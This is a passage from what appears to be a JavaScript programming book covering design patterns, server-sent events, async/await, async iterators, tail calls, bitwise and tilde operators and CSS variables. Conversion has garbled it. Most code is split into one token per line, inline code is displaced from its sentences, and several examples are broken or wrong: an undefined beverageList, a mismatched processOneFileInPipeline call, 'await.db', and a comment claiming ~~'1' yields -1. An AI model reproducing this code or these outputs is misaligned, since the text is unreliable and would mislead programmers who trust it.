Think of the mediator pattern as the flight control tower that
controls planes in the air: it directs this plane to land now, the
second to wait, and the third to take off, etc. However no plane is
ever allowed to talk to its peers.
>
This is how mediator works, it works as a communication hub among
different modules, this way you reduce module dependency on each
other, increase loose coupling, and consequently portability.
>
This [**Chatroom
example**](http://www.dofactory.com/javascript/mediator-design-pattern)
explains how mediator patterns works:

{width="7.486805555555556in"
height="8.206944444444444in"}

}

)

(

)

;

**function**

run

(

)

{

**var**

yoko

=

**new**

Participant

(

\"Yoko\"

)

;

**var**

john

=

**new**

Participant

(

\"John\"

)

;

**var**

paul

=

**new**

Participant

(

\"Paul\"

)

;

**var**

ringo

=

**new**

Participant

(

\"Ringo\"

)

;

**var**

chatroom

=

**new**

Chatroom

(

)

;

chatroom.

register

(

yoko

)

;

chatroom.

register

(

john

)

;

chatroom.

register

(

paul

)

;

chatroom.

register

(

ringo

)

;

yoko.

send

(

\"All you need is love.\"

)

;

yoko.

send

(

\"I love you John.\"

)

;

paul.

send

(

\"Ha, I heard that!\"

)

;

log.

show

(

)

;

}

## Section 79.3: Command

The command pattern encapsulates parameters to a method, current
object state, and which method to call. It is useful to
compartmentalize everything needed to call a method at a later time.
It can be used to issue a \"command\" and decide later which piece of
code to use to execute the command.
>
There are three components in this pattern:

1.  Command Message - the command itself, including the method name,
    parameters, and state

2.  Invoker - the part which instructs the command to execute its
    instructions. It can be a timed event, user interaction, a step in a
    process, callback, or any way needed to execute the command.

3.  Receiver - the target of the command execution.

**Command Message as an Array**
>
**var** aCommand = **new** Array(); aCommand.push(**new**
Instructions().DoThis); *//Method to execute* aCommand.push(\"String
Argument\"); *//string argument* aCommand.push(777); *//integer
argument* aCommand.push(**new** Object {} ); *//object argument*
aCommand.push(**new** Array() ); *//array argument*
>
Constructor for command class

class

DoThis

{

constructor

(

stringArg

,

numArg

,

objectArg

,

arrayArg

)

{

**this**

.\_stringArg

=

stringArg

;

**this**

.\_numArg

=

numArg

;

**this**

.\_objectArg

=

objectArg

;

**this**

.\_arrayArg

=

arrayArg

;

}

Execute

(

)

{

**var**

receiver

=

**new**

Instructions

(

)

;

receiver.

DoThis

(

**this**

.\_stringArg

,

**this**

.\_numArg

,

**this**

.\_objectArg

,

**this**

.\_arrayArg

)

;

}

}

**Invoker**

aCommand.

Execute

(

)

;

Can invoke:
>
immediately in response to an event in a sequence of execution as a
callback response or in a promise at the end of an event loop
>
in any other needed way to invoke a method
>
**Receiver**

class

Instructions

{

DoThis

(

stringArg

,

numArg

,

objectArg

,

arrayArg

)

{

console.

log

(

\`\$

{

stringArg

}

,

\$

{

numArg

}

,

\$

{

objectArg

}

,

\$

{

arrayArg

}

\`

)

;

}

}

A client generates a command, passes it to an invoker that either
executes it immediately or delays the command, and then the command
acts upon a receiver. The command pattern is very useful when used
with companion patterns to create messaging patterns.

## Section 79.4: Iterator

An iterator pattern provides a simple method for selecting,
sequentially, the next item in a collection.
>
**Fixed Collection**

class

BeverageForPizza

{

constructor

(

preferenceRank

)

{

**this**

.

beverageList

=

beverageList

;

**this**

.

pointer

=

0

;

}

next

(

)

{

**return**

**this**

.

beverageList

\[

**this**

.

pointer

++

\]

;

}

**var**

withPepperoni

=

**new**

BeverageForPizza

(

\[

\"Cola\"

,

\"Water\"

,

\"Beer\"

\]

)

;

withPepperoni.

next

(

)

;

*//Cola*

withPepperoni.

next

(

)

;

*//Water*

withPepperoni.

next

(

)

;

*//Beer*

In ECMAScript 2015 iterators are a built-in as a method that returns
done and value. done is true when the iterator is at the end of the
collection

**function**

preferredBeverage

(

beverage

)

{

**if**

(

beverage

==

\"Beer\"

)

{

**return**

**true**

;

}

**else**

{

**return**

**false**

;

}

}

**var**

withPepperoni

=

**new**

BeverageForPizza

(

\[

\"Cola\"

,

\"Water\"

,

\"Beer\"

,

\"Orange Juice\"

\]

)

;

**for**

(

**var**

bevToOrder of withPepperoni

)

{

**if**

(

preferredBeverage

(

bevToOrder

)

{

bevToOrder.

done

;

*//false, because \"Beer\" isn\'t the final collection item*

**return**

bevToOrder

;

*//\"Beer\"*

}

}

**As a Generator**

class

FibonacciIterator

{

constructor

(

)

{

**this**

.

previous

=

1

;

**this**

.

beforePrevious

=

1

;

}

next

(

)

{

**var**

current

=

**this**

.

previous

\+

**this**

.

beforePrevious

;

**this**

.

beforePrevious

=

**this**

.

previous

;

**this**

.

previous

=

current

;

**return**

current

;

}

}

**var**

fib

=

**new**

FibonacciIterator

(

)

;

fib.

next

(

)

;

*//2*

fib.

next

(

)

;

*//3*

fib.

next

(

)

;

*//5*

In ECMAScript 2015

**function**

\*

FibonacciGenerator

(

)

{

*//asterisk informs javascript of generator*

**var**

previous

=

1

;

**var**

beforePrevious

=

1

;

while

(

**true**

)

{

**var**

current

=

previous

\+

beforePrevious

;

beforePrevious

=

previous

;

previous

=

current

;

yield current

;

*//This is like return but*

*//keeps the current state of the function*

*// i.e it remembers its place between calls*

}

}

**var**

fib

=

FibonacciGenerator

(

)

;

fib.

next

(

)

.

value

;

*//2*

fib.

next

(

)

.

value

;

*//3*

fib.

next

(

)

.

value

;

*//5*

fib.

next

(

)

.

done

;

*//false*

# Chapter 80: Server-sent events

## Section 80.1: Setting up a basic event stream to the server

You can setup your client browser to listen in incoming server events
using the EventSource object. You will need to supply the constructor
a string of the path to the server\' API endpoint the will subscribe
the client to the server events.
>
Example:

  
  **var** eventSource     =   **new** EventSource     (   \"api/my-events\"
      

  

);

  
  onmessage
  

  

Events have names with which they are categorized and sent, and a
listener must be setup to listen to each such event by name. the
default event name is message and in order to listen to it you must
use the appropriate event listener, .

evtSource.

onmessage

=

**function**

(

event

)

{

**var**

data

=

JSON.

parse

(

event.

data

)

;

*// do something with data*

}

  -
  text                         /       plain
   - 

  -

The above function will run every time the server will push an event
to the client. Data is sent as , if you send JSON data you may want to
parse it.

## Section 80.2: Closing an event stream

  
  EventSource.close
  

  

An event stream to the server can be closed using the () method

**var**

eventSource

=

**new**

EventSource

(

\"api/my-events\"

)

;

*// do things \...*

eventSource.

close

(

)

;

*// you will not receive anymore events from this object*

  
  close
  

  

The .() method does nothing is the stream is already closed.

## Section 80.3: Binding event listeners to EventSource

You can bind event listeners to the EventSource object to listen to
different events channels using the

  
  addEventListener
  

  

. method.

EventSource.addEventListener(name: String, callback: Function,
\[options\])

**name**: The name related to the name of the channel the server is
emitting events to.
>
**callback**: The callback function runs every time an event bound to
the channel is emitted, the function provides the event as an
argument. **options**: Options that characterize the behavior of the
event listener.
>
The following example shows a heartbeat event stream from the server,
the server sends events on the heartbeat channel and this routine will
always run when an event in accepted.

**var**

eventSource

=

**new**

EventSource

(

\"api/heartbeat\"

)

;

\...

eventSource

.

addEventListener

(

\"heartbeat\"

,

**function**

(

event

)

{

**var**

status

=

event.

data

;

**if**

(

status

==

\'OK\'

)

{

*// do something*

}

}

)

;

# Chapter 81: Async functions (async/await)

async and await build on top of promises and generators to express
asynchronous actions inline. This makes asynchronous or callback code
much easier to maintain.
>
Functions with the async keyword return a Promise, and can be called
with that syntax.

  
  async **function**
  

  

Inside an the await keyword can be applied to any Promise, and will
cause all of the function body after the await to be executed after
the promise resolves.

## Section 81.1: Introduction

A function defined as async is a function that can perform
asynchronous actions but still look synchronous. The way it\'s done is
using the await keyword to defer the function while it waits for a
Promise to resolve or reject.
>
**Note:** Async functions are [a Stage 4 (\"Finished\")
proposal](https://github.com/tc39/proposals/blob/master/finished-proposals.md)
on track to be included in the ECMAScript 2017 standard.
>
For instance, using the promise-based [Fetch
API](https://developer.mozilla.org/en/docs/Web/API/Fetch_API):

async

**function**

getJSON

(

url

)

{

**try**

{

**const**

response

=

await fetch

(

url

)

;

**return**

await response.

json

(

)

;

}

**catch**

(

err

)

{

*// Rejections in the promise will get thrown here*

console.

error

(

err.

message

)

;

}

}

An async function always returns a Promise itself, so you can use it
in other asynchronous functions.

**Arrow function style**

**const**

getJSON

=

async url

=\>

{

**const**

response

=

await fetch

(

url

)

;

**return**

await response.

json

(

)

;

}

## Section 81.2: Await and operator precedence

You have to keep the operator precedence in mind when using await
keyword.

  
  getUnicorn
  

  

  
  getSize
  

  

Imagine that we have an asynchronous function which calls another
asynchronous function, () which returns a Promise that resolves to an
instance of class Unicorn. Now we want to get the size of the unicorn
using the () method of that class.
>
Look at the following code:

async

**function**

myAsyncFunction

(

)

{

await getUnicorn

(

)

.

getSize

(

)

;

}

At first sight, it seems valid, but it\'s not. Due to operator
precedence, it\'s equivalent to the following:

async

**function**

myAsyncFunction

(

)

{

await

(

getUnicorn

(

)

.

getSize

(

)

)

;

}

  
  getSize
  

  

Here we attempt to call () method of the Promise object, which isn\'t
what we want.

  
  getSize
  

  

Instead, we should use brackets to denote that we first want to wait
for the unicorn, and then call () method of the result:

async

**function**

asyncFunction

(

)

{

(

await getUnicorn

(

)

)

.

getSize

(

)

;

}

  
  getUnicorn
  

  

  
  getSize
  

  

Of course. the previous version could be valid in some cases, for
example, if the () function was synchronous, but the () method was
asynchronous.

## Section 81.3: Async functions compared to Promises

async functions do not replace the Promise type; they add language
keywords that make promises easier to call. They are interchangeable:

async

**function**

doAsyncThing

(

)

{

\...

}

**function**

doPromiseThing

(

input

)

{

**return**

**new**

Promise

(

(

r

,

x

)

=\>

\...

)

;

}

*// Call with promise syntax*

doAsyncThing

(

)

.

then

(

a

=\>

doPromiseThing

(

a

)

)

.

then

(

b

=\>

\...

)

.

**catch**

(

ex

=\>

\...

)

;

*// Call with await syntax*

**try**

{

**const**

a

=

await doAsyncThing

(

)

;

**const**

b

=

await doPromiseThing

(

a

)

;

\...

}

**catch**

(

ex

)

{

\...

}

Any function that uses chains of promises can be rewritten using
await:
>
**function** newUnicorn() { **return** fetch(\'unicorn.json\') *//
fetch unicorn.json from server*
>
.then(responseCurrent =\responseCurrent.json()) *// parse the
response as JSON*
>
.then(unicorn =\fetch(\'new/unicorn\', { *// send a request to
\'new/unicorn\'* method: \'post\', *// using the POST method* body:
JSON.stringify({unicorn}) *// pass the unicorn to the request body*
>
})
>
)
>
.then(responseNew =\responseNew.json())
>
.then(json =\json.success) *// return success property of response*
>
.**catch**(err =\console.log(\'Error creating unicorn:\', err));
>
}
>
The function can be rewritten using async / await as follows:
>
async **function** newUnicorn() { **try** {
>
**const** responseCurrent = await fetch(\'unicorn.json\'); *// fetch
unicorn.json from server* **const** unicorn = await
responseCurrent.json(); *// parse the response as JSON* **const**
responseNew = await fetch(\'new/unicorn\', { *// send a request to
\'new/unicorn\'* method: \'post\', *// using the POST method* body:
JSON.stringify({unicorn}) *// pass the unicorn to the request body*
>
}); **const** json = await responseNew.json(); **return** json.success
*// return success property of response*
>
} **catch** (err) { console.log(\'Error creating unicorn:\', err); }
>
}

  
  newUnicorn
  

  

This async variant of () appears to return a Promise, but really there
were multiple await keywords. Each one returned a Promise, so really
we had a collection of promises rather than a chain.

  -
  **function**   \* generator, with each await being a   yield **new** Promise
    

  -

In fact we can think of it as a . However, the
>
results of each promise are needed by the next to continue the
function. This is why the additional keyword async is needed on the
function (as well as the await keyword when calling the promises) as
it tells JavaScript to

  
  async **function** newUnicorn
  

  

automatically creates an observer for this iteration. The Promise
returned by () resolves when this iteration completes.
>
Practically, you don\'t need to consider that; await hides the promise
and async hides the generator iteration.

  
  then
  

  

You can call async functions as if they were promises, and await any
promise or any async function. You don\'t need to await an async
function, just as you can execute a promise without a .().
>
You can also use an async
[IIFE](https://en.wikipedia.org/wiki/Immediately-invoked_function_expression)
if you want to execute that code immediately:

(

async

(

)

=\>

{

await makeCoffee

(

)

console.

log

(

\'coffee is ready!\'

)

}

)

(

)

## Section 81.4: Looping with async await

When using async await in loops, you might encounter some of these
problems.
>
If you just try to use await inside forEach, this will throw an
Unexpected token error.

(

async

(

)

=\>

{

data

=

\[

1

,

2

,

3

,

4

,

5

\]

;

data.

forEach

(

e

=\>

{

**const**

i

=

await somePromiseFn

(

e

)

;

console.

log

(

i

)

;

}

)

;

}

)

(

)

;

This comes from the fact that you\'ve erroneously seen the arrow
function as a block. The await will be in the context of the callback
function, which is not async.
>
The interpreter protects us from making the above error, but if you
add async to the forEach callback no errors get thrown. You might
think this solves the problem, but it won\'t work as expected.
>
Example:
>
(async() =\{ data = \[1, 2, 3, 4, 5\];

data.

forEach

(

async

(

e

)

=\>

{

**const**

i

=

await somePromiseFn

(

e

)

;

console.

log

(

i

)

;

}

)

;

console.

log

(

\'this will print first\'

)

;

}

)

(

)

;

This happens because the callback async function can only pause
itself, not the parent async function.

  -
  await asyncForEach   (   async   \(e\)   =\await somePromiseFn    (e),   data
    - -   

  -

You could write an asyncForEach function that returns a promise and
then you could something like
>
) Basically you return a promise that resolves when all the callbacks
are awaited and done. But there are better ways of doing this, and
that is to just use a loop.

  
  for       \-   of    loop or a                 **for**   /   while
    -    

  

You can use a loop, it doesn\'t really matter which one you pick.

(

async

(

)

=\>

{

data

=

\[

1

,

2

,

3

,

4

,

5

\]

;

**for**

(

**let**

e of data

)

{

**const**

i

=

await somePromiseFn

(

e

)

;

console.

log

(

i

)

;

}

console.

log

(

\'this will print last\'

)

;

}

)

(

)

;

But there\'s another catch. This solution will wait for each call to
somePromiseFn to complete before iterating over the next one.

  
  Promise.all
  

  

This is great if you actually want your somePromiseFn invocations to
be executed in order but if you want them to run concurrently, you
will need to await on .

(

async

(

)

=\>

{

data

=

\[

1

,

2

,

3

,

4

,

5

\]

;

**const**

p

=

await Promise.

all

(

data.

map

(

async

(

e

)

=\>

await somePromiseFn

(

e

)

)

)

;

console.

log

(

\...

p

)

;

}

)

(

)

;

  
  Promise.all
  

  

receives an array of promises as its only parameter and returns a
promise. When all of the promises

in the array are resolved, the returned promise is also resolved. We
await on that promise and when it\'s resolved all our values are
available.

  
  stage
  

  

The above examples are fully runnable. The somePromiseFn function can
be made as an async echo function with a timeout. You can try out the
examples in the [babel-repl](https://babeljs.io/repl) with at least
the -3 preset and look at the output.

**function**

somePromiseFn

(

n

)

{

**return**

**new**

Promise

(

(

res

,

rej

)

=\>

{

setTimeout

(

(

)

=\>

res

(

n

)

,

250

)

;

}

)

;

}

## Section 81.5: Less indentation

With promises:
>
**function** doTheThing() { **return** doOneThing()

.

then

(

doAnother

)

.

then

(

doSomeMore

)

.

**catch**

(

handleErrors

)

}

With async functions:

async

**function**

doTheThing

(

)

{

**try**

{

**const**

one

=

await doOneThing

(

)

;

**const**

another

=

await doAnother

(

one

)

;

**return**

await doSomeMore

(

another

)

;

}

**catch**

(

err

)

{

handleErrors

(

err

)

;

}

}

  
  **try**                 /       **catch**
   - 

  

Note how the return is at the bottom, and not at the top, and you use
the language\'s native error-handling mechanics ().

## Section 81.6: Simultaneous async (parallel) operations

  
  Promise.all
  

  

Often you will want to perform asynchronous operations in parallel.
There is direct syntax that supports this in the async/await proposal,
but since await will wait for a promise, you can wrap multiple
promises together in to wait for them:

*// Not in parallel*

async

**function**

getFriendPosts

(

user

)

{

friendIds

=

await db.

**get**

(

\"friends\"

,

{

user

}

,

{

id

:

1

}

)

;

friendPosts

=

\[

\]

;

**for**

(

**let**

id

**in**

friendIds

)

{

friendPosts

=

friendPosts.

concat

(

await db.

**get**

(

\"posts\"

,

{

user

:

id

}

)

)

;

}

*// etc.*

}

This will do each query to get each friend\'s posts serially, but they
can be done simultaneously:

*// In parallel*

async

**function**

getFriendPosts

(

user

)

{

friendIds

=

await.

db

.

**get**

(

\"friends\"

,

{

user

}

,

{

id

:

1

}

)

;

friendPosts

=

await Promise.

all

(

friendIds.

map

(

id

=\>

db.

**get**

(

\"posts\"

,

{

user

:

id

}

)

)

;

*// etc.*

}

  
  Promise.all
  

  

This will loop over the list of IDs to create an array of promises.
await will wait for *all* promises to be complete. combines them into
a single promise, but they are done in parallel.

# Chapter 82: Async Iterators

An async function is one that returns a promise. await yields to the
caller until the promise resolves and then continues with the result.

  
  for                                 \-          of
    

  

An iterator allows the collection to be looped through with a loop.

  
  for               \-    await                         \-    of
   -  - 

  

An async iterator is a collection where each iteration is a promise
which can be awaited using a loop.

  -
  \harmony                \-   async          \-   iteration
      

  -

Async iterators are a [stage 3
proposal](https://github.com/tc39/proposal-async-iteration). They are
in Chrome Canary 60 with

## Section 82.1: Basics

  
  next
  

  

A JavaScript Iterator is an object with a .() method, which returns an
IteratorItem, which is an object with

  
  boolean
  

  

  
  value
  

  

  -
  any              \and                       done
  -  

  -

: \<: \<\>.

  -
  next   () method, which returns a          Promise    \<   IteratorItem
    -  

  -

A JavaScript AsyncIterator is an object with a .\>, a *promise* for
the next value.
>
To create an AsyncIterator, we can use the *async generator* syntax:

*/\*\**

*\* Returns a promise which resolves after time had passed.*

*\*/*

**const**

delay

=

time

=\>

**new**

Promise

(

resolve

=\>

setTimeout

(

resolve

,

time

)

)

;

async

**function**

\*

delayedRange

(

max

)

{

**for**

(

**let**

i

=

0

;

i

\<

max

;

i

++

)

{

await delay

(

1000

)

;

yield i

;

}

}

The delayedRange function will take a maximum number, and returns an
AsyncIterator, which yields numbers from 0 to that number, in 1 second
intervals.
>
Usage:

**for**

await

(

**let**

number of delayedRange

(

10

)

)

{

console.

log

(

number

)

;

}

  
  **for** await of
  

  

  
  **for** await of
  

  

The loop is another piece of new syntax, available only inside of
async functions, as well as async generators. Inside the loop, the
values yielded (which, remember, are Promises) are unwrapped, so the
Promise is hidden away. Within the loop, you can deal with the direct
values (the yielded numbers), the loop will wait for the Promises on
your behalf.

  
  **for** await of
  

  

The above example will wait 1 second, log 0, wait another second, log
1, and so on, until it logs 9. At which point the AsyncIterator will
be done, and the loop will exit.

# Chapter 83: How to make iterator usable inside async callback function

When using async callback we need to consider scope. **Especially** if
inside a loop. This simple article shows what not to do and a simple
working example.

## Section 83.1: Erroneous code, can you spot why this usage of key will lead to bugs?

**var**

pipeline

=

{

}

;

*// (\...) adding things in pipeline*

**for**

(

**var**

key

**in**

pipeline

)

{

fs.

stat

(

pipeline

\[

key

\]

.

path

,

**function**

(

err

,

stats

)

{

**if**

(

err

)

{

*// clear that one*

**delete**

pipeline

\[

key

\]

;

**return**

;

}

*// (\...)*

pipeline

\[

key

\]

.

count

++

;

}

)

;

}

The problem is that there is only one instance of **var key**. All
callbacks will share the same key instance. At the time the callback
will fire, the key will most likely have been incremented and not
pointing to the element we are receiving the stats for.

## Section 83.2: Correct Writing

**var**

pipeline

=

{

}

;

*// (\...) adding things in pipeline*

**var**

processOneFile

=

**function**

(

key

)

{

fs.

stat

(

pipeline

\[

key

\]

.

path

,

**function**

(

err

,

stats

)

{

**if**

(

err

)

{

*// clear that one*

**delete**

pipeline

\[

key

\]

;

**return**

;

}

*// (\...)*

pipeline

\[

key

\]

.

count

++

;

}

)

;

}

;

*// verify it is not growing*

**for**

(

**var**

key

**in**

pipeline

)

{

processOneFileInPipeline

(

key

)

;

}

By creating a new function, we are scoping **key** inside a function
so all callback have their own key instance.

# Chapter 84: Tail Call Optimization

## Section 84.1: What is Tail Call Optimization (TCO)

TCO is only available in strict mode
>
As always check browser and JavaScript implementations for support of
any language features, and as with any JavaScript feature or syntax,
it may change in the future.
>
It provides a way to optimise recursive and deeply nested function
calls by eliminating the need to push function state onto the global
frame stack, and avoiding having to step down through each calling
function by returning directly to the initial calling function.

**function**

a

(

)

{

**return**

b

(

)

;

*// 2*

}

**function**

b

(

)

{

**return**

1

;

*// 3*

}

a

(

)

;

*// 1*

Without TCO the call to a() creates a new frame for that function.
When that function calls b() the a()\'s frame is pushed onto the frame
stack and a new frame is created for function b()
>
When b() return to a() a()\'s frame is popped from the frame stack. It
immediately return to the global frame and thus does not use any of
the states save on the stack.
>
TCO recognises that the call from a() to b() is at the tail of
function a() and thus there is no need to push a()\'s state onto the
frame stack. When b(0) returns rather than returning to a() it returns
directly to the global frame. Further optimising by eliminating the
intermediate steps.
>
TCO allows for recursive functions to have indefinite recursion as the
frame stack will not grow with each recursive call. Without TCO
recursive function had a limited recursive depth.
>
**Note** TCO is a JavaScript engine implementation feature, it cannot
be implemented via a transpiler if the browser does not support it.
There is no additional syntax in the spec required to implement TCO
and thus there is concern that TCO may break the web. Its release into
the world is cautious and may require browser/engine specific flags to
be set for the perceivable future.

## Section 84.2: Recursive loops

Tail Call Optimisation makes it possible to safely implement recursive
loops without concern for call stack overflow or the overhead of a
growing frame stack.

**function**

indexOf

(

array

,

predicate

,

i

=

0

)

{

**if**

(

0

\<=

i

&&

i

\<

array.

length

)

{

**if**

(

predicate

(

array

\[

i

\]

)

)

{

**return**

i

;

}

**return**

indexOf

(

array

,

predicate

,

i

\+

1

)

;

*// the tail call*

}

}

indexOf

(

\[

1

,

2

,

3

,

4

,

5

,

6

,

7

\]

,

x

=\>

x

===

5

)

;

*// returns index of 5 which is 4*

# Chapter 85: Bitwise Operators - Real World Examples (snippets)

## Section 85.1: Swapping Two Integers with Bitwise XOR (without additional memory allocation)

**var**

a

=

11

,

b

=

22

;

a

=

a

\^

b

;

b

=

a

\^

b

;

a

=

a

\^

b

;

console.

log

(

\"a = \"

\+

a

\+

\"; b = \"

\+

b

)

;

*// a is now 22 and b is now 11*

## Section 85.2: Faster multiplication or division by powers of 2

  
  13 \* (10 \*\* 2)
  

  

Shifting bits left (right) is equivalent to multiplying (dividing) by
2. It\'s the same in base 10: if we \"left-shift\" 13 by 2 places, we
get 1300, or . And if we take 12345 and \"right-shift\" by 3 places
and then remove the

  
  Math.floor(12345 / (10 \*\*   . So if we want to multiply a      2 \*\*
  3))                           variable by                        n
    

  

decimal part, we get 12, or , we can just left-shift by n bits.

console.

log

(

13

\*

(

2

\*\*

6

)

)

*//13 \* 64 = 832*

console.

log

(

13

\<\<

6

)

*// 832*

  
  2 \*\* n
  

  

Similarly, to do (floored) integer division by , we can right shift by
n bits. Example:

console.

log

(

1000

/

(

2

\*\*

4

)

)

*//1000 / 16 = 62.5*

console.

log

(

1000

\>\>

4

)

*// 62*

It even works with negative numbers:

console.

log

(

\-

80

/

(

2

\*\*

3

)

)

*//-80 / 8 = -10*

console.

log

(

\-

80

\>\>

3

)

*// -10*

In reality, speed of arithmetic is unlikely to significantly impact
how long your code takes to run, unless you are doing on the order of
100s of millions of computations. But C programmers love this sort of
thing!

## Section 85.3: Number\'s Parity Detection with Bitwise AND

Instead of this (unfortunately too often seen in the real code)
\"masterpiece\":

**function**

isEven

(

n

)

{

**return**

n

\%

2

==

0

;

}

**function**

isOdd

(

n

)

{

**if**

(

isEven

(

n

)

)

{

**return**

**false**

;

}

**else**

{

**return**

**true**

;

}

}

You can do the parity check much more effective and simple:

**if**

(

n

&

1

)

{

console.

log

(

\"ODD!\"

)

;

}

**else**

{

console.

log

(

\"EVEN!\"

)

;

}

(this is actually valid not only for JavaScript)

# Chapter 86: Tilde \~

The \~ operator looks at the binary representation of the values of
the expression and does a bitwise negation operation on it.
>
Any digit that is a 1 in the expression becomes a 0 in the result. Any
digit that is a 0 in the expression becomes a 1 in the result.

## Section 86.1: \~ Integer

The following example illustrates use of the bitwise NOT (\~) operator
on integer numbers.

**let**

number

=

3

;

**let**

complement

=

\~number

;

Result of the complement number equals to -4;

**Expression Binary value Decimal value**

3 00000000 00000000 00000000 00000011 3

\~3

11111111

11111111

11111111

11111100

-4

To simplify this, we can think of it as function

f

(

n

)

=

\-

(

n

\+

1

)

.

**let**

a

=

\~

\-

2

;

*// a is now 1*

**let**

b

=

\~

\-

1

;

*// b is now 0*

**let**

c

=

\~

0

;

*// c is now -1*

**let**

d

=

\~

1

;

*// d is now -2*

**let**

e

=

\~

2

;

*// e is now -3*

## Section 86.2: \~\~ Operator

Double Tilde \~\~ will perform bitwise NOT operation twice.
>
The following example illustrates use of the bitwise NOT (\~\~)
operator on decimal numbers.
>
To keep the example simple, decimal number 3.5 will be used, cause of
it\'s simple representation in binary format.

**let**

number

=

3.5

;

**let**

complement

=

\~number

;

Result of the complement number equals to -4;

**Expression Binary value Decimal value**

3 00000000 00000000 00000000 00000011 3

\~\~3 00000000 00000000 00000000 00000011 3

  
  00000000 00000011.1
  

  

3.53.5

\~\~3.5 00000000 00000011 3

  
  integer
  

  

  
  f2
  

  

  
  g2
  

  

To simplify this, we can think of it as functions (n) = -(-(n+1) + 1)
and (n) = -(-((n)+1) + 1).
>
**f2(n)** will leave the integer number as it is.

**let**

a

=

\~\~

\-

2

;

*// a is now -2*

**let**

b

=

\~\~

\-

1

;

*// b is now -1*

**let**

c

=

\~\~

0

;

*// c is now 0*

**let**

d

=

\~\~

1

;

*// d is now 1*

**let**

e

=

\~\~

2

;

*// e is now 2*

**g2(n)** will essentially round positive numbers down and negative
numbers up.

**let**

a

=

\~\~

\-

2.5

;

*// a is now -2*

**let**

b

=

\~\~

\-

1.5

;

*// b is now -1*

**let**

c

=

\~\~

0.5

;

*// c is now 0*

**let**

d

=

\~\~

1.5

;

*// d is now 1*

**let**

e

=

\~\~

2.5

;

*// e is now 2*

## Section 86.3: Converting Non-numeric values to Numbers

\~\~ Could be used on non-numeric values. A numeric expression will be
first converted to a number and then performed bitwise NOT operation
on it.
>
If expression cannot be converted to numeric value, it will convert to
0.
>
**true** and **false** bool values are exceptions, where **true** is
presented as numeric value 1 and **false** as 0

**let**

a

=

\~\~

\"-2\"

;

*// a is now -2*

**let**

b

=

\~\~

\"1\"

;

*// b is now -1*

**let**

c

=

\~\~

\"0\"

;

*// c is now 0*

**let**

d

=

\~\~

\"true\"

;

*// d is now 0*

**let**

e

=

\~\~

\"false\"

;

*// e is now 0*

**let**

f

=

\~\~

**true**

;

*// f is now 1*

**let**

g

=

\~\~

**false**

;

*// g is now 0*

**let**

h

=

\~\~

\"\"

;

*// h is now 0*

## Section 86.4: Shorthands

We can use \~ as a shorthand in some everyday scenarios.
>
We know that \~ converts -1 to 0, so we can use it with indexOf on
array. **indexOf**

**let**

items

=

\[

\'foo\'

,

\'bar\'

,

\'baz\'

\]

;

**let**

el

=

\'a\'

;

**if**

(

items.

indexOf

(

\'a\'

)

!==

\-

1

)

{

}

or

**if**

(

items.

indexOf

(

\'a\'

)

\>=

0

)

{

}

**can be re-written as if** (\~items.indexOf(\'a\')) {}

## Section 86.5: \~ Decimal

The following example illustrates use of the bitwise NOT (\~) operator
on decimal numbers.
>
To keep the example simple, decimal number 3.5 will be used, cause of
it\'s simple representation in binary format.

**let**

number

=

3.5

;

**let**

complement

=

\~number

;

Result of the complement number equals to -4;

**Expression Binary value Decimal value**

  
  00000000 00000010.1
  

  

3.53.5

\~3.5

11111111

11111100

-4

To simplify this, we can think of it as function

f

(

n

)

=

\-

(

integer

(

n

)

\+

1

)

.

**let**

a

=

\~

\-

2.5

;

*// a is now 1*

**let**

b

=

\~

\-

1.5

;

*// b is now 0*

**let**

c

=

\~

0.5

;

*// c is now -1*

**let**

d

=

\~

1.5

;

*// c is now -2*

**let**

e

=

\~

2.5

;

*// c is now -3*

# Chapter 87: Using JavaScript to get/set CSS custom variables

## Section 87.1: How to get and set CSS variable property values

To get a value use the .getPropertyValue() method

element.

style

.

getPropertyValue

(

\"\var\"

)

To set a value use the .setProperty() method.

element.

style

.

setProperty

(

\"\var\"

,

\"NEW_VALUE\"

)

# Chapter 88: Selection API

**Parameter Details**

If the node is a Text node, it is the number of characters from the
beginning of startNode to where the

startOffset range begins. Otherwise, it is the number of child nodes
between the beginning of startNode to where the range begins.

If the node is a Text node, it is the number of characters from the
beginning of startNode to where the

endOffset range ends. Otherwise, it is the number of child nodes
between the beginning of startNode to where the range ends.

